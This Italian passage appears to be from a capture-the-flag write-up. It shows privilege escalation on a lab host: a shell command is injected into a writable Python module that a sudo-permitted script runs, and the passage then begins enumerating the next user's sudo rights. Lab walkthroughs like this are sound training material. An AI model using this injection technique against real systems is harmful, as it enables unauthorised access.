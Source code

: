 Si puo' accedere con i privilegi di **scrittura** al file **status.py**.

```python
import platform
import psutil
import os

def system_status():
    print("System:", platform.system(), platform.release())
    print("CPU usage:", psutil.cpu_percent(), "%")
    print("Memory usage:", psutil.virtual_memory().percent, "%")
```

Si modifica il file aggiungendo un comando per lanciare una shell sfruttando i privilegi di **mark**.

```python
import platform
import psutil
import os

os.system("/bin/bash -p")

def system_status():
    print("System:", platform.system(), platform.release())
    print("CPU usage:", psutil.cpu_percent(), "%")
    print("Memory usage:", psutil.virtual_memory().percent, "%")
```

Si lancia il programma modificato e si accede alla shell comebash **mark**.

```bash
jamil@guardian:~$ sudo -u mark /opt/scripts/utilities/utilities.py system-status

mark@guardian:/home/jamil$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark),1002(admins)
```

### Shell as mark
---

```bash
mark@guardian:~$ sudo -l
Matching Defaults entries for mark on guardian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on guardian:
    (ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
```

Con **sudo** si puo' eseguire il comando **safeapache2ctl**.

```bash
mark@guardian:~$ /usr/local/bin/safeapache2ctl -h
Usage: /usr/local/bin/safeapache2ctl -f /home/mark/confs/file.conf

mark@guardian:~$ file /usr/local/bin/safeapache2ctl
/usr/local/bin/safeapache2ctl: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0690ef286458863745e17e8a81cc550ced004b12, for GNU/Linux 3.2.0, not stripped
```
